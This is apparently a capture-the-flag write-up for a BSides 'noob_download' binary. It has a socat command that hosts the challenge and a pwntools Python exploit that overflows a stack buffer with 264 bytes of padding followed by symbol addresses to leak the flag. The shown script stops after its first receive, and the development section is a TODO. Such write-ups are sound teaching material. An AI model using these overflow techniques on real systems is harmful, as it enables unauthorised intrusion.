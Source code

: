 Starting the challenge binary and bind to tcp 6000 to simulated the challenge server
```shell
vagrant@vagrant-ubuntu-trusty-64:~/host-share/bsides$ socat TCP-LISTEN:6000,reuseaddr,fork EXEC:"./noob_download"
```

### TODO: Document the exploit development process ###

### Final working exploit ###
```python
#!/usr/bin/env python2
#from IPython import embed #for debugging during exploit development
from pwn import *

#Completely unneeded but why not
def asciipadding(asciiart=None, length=0):
    asciipaddingstring = ''
    for i in range(length):
        asciipaddingstring += asciiart[i%(len(asciiart))]
    return asciipaddingstring

noob_download_bin = ELF('noob_download')
#Not used:
#rop = ROP(noob_download_bin)
if args['REMOTE']:
        noob_download = remote('pwn.shell.dance', 6000)
else:
        noob_download = process('noob_download')

#Target information
context.update(arch='amd64', os='linux')

#Some variables
flag = noob_download_bin.symbols['flag']
whateva = noob_download_bin.symbols['whateva']
libc_fatal_stderr = 'LIBC_FATAL_STDERR_=0\x00'
payload_padding = 264
payload  = ''

#GDB attach code block
"""
gdb.attach(noob_download, '''
set disassembly-flavor intel
break *main+104 #Break at the first fgets
break *main+173 #Break at the second fgets
''')
"""

#Generating the payload
log.info("Payload padding - %d bytes" % payload_padding)
#Choose your padding:
#payload += 'A' * 264
#payload += cyclic(264)
payload += asciipadding('~=[,,_,,]:3 ', payload_padding) #Why not nyan cat
log.info("Address of flag - 0x%x" % flag)
payload += p64(flag)
log.info("Address of user input - 0x%x" % whateva)
payload += p64(whateva)
log.info("Final generated payload:")
log.hexdump(payload)

#Performing the actual exploit:
log.info("Starting communication with server")
log.info(noob_download.recvuntil(': '))
```